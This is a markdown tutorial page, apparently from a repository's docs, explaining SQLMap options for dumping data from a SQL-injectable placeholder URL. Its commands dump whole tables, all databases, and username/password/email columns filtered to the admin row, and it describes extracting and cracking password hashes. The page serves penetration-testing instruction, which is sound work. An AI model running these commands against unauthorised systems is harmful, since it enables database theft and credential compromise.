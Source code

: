 ```yaml
---
title: Data Extraction Techniques
description: Learn how to extract data from databases using SQLMap
---
```


# Data Extraction Techniques

After identifying the database structure, you can extract data from specific tables and columns of interest.

## Dumping Table Data (`--dump`)

To extract all data from a specific table:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

This command retrieves all records from the specified table. For large tables, SQLMap will ask if you want to retrieve all entries or a subset.

## Dumping Specific Columns (`-C`)

To extract data from specific columns only:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name -C "username,password,email" --dump
```

This is useful when you're only interested in certain columns, especially in tables with many columns or large amounts of data.

## Conditional Data Extraction (`--where`)

To extract records that match specific criteria:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users -C "username,password" --dump --where "username='admin'"
```

This allows you to filter the data based on specific conditions, similar to a SQL WHERE clause.

## Extracting a Range of Records (`--start` and `--stop`)

For large tables, you can extract a specific range of records:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users --dump --start 1 --stop 100
```

This retrieves only records 1 through 100, which is useful for paginating through large datasets.

## Dumping All Databases (`--dump-all`)

To extract data from all tables in all databases:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
```


## Password Cracking (`--passwords`)

SQLMap can attempt to identify and crack password hashes:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --passwords
```

This command:
1. Identifies tables that might contain password hashes
2. Extracts the hashes
3. Attempts to crack them using a dictionary attack or brute force

You can also specify a custom wordlist with `--passwords-file=/path/to/wordlist.txt`.

## Optimizing Data Extraction

For large databases, consider these optimization techniques:

- Use `--threads` to speed up data extraction
- Use `--dump-format=CSV` to output data in a more manageable format
- Use `--binary-fields` to specify which fields contain binary data
- Use `--hex` to retrieve data in hexadecimal format for binary fields

These options can significantly improve the efficiency of data extraction, especially for large databases with complex data types.
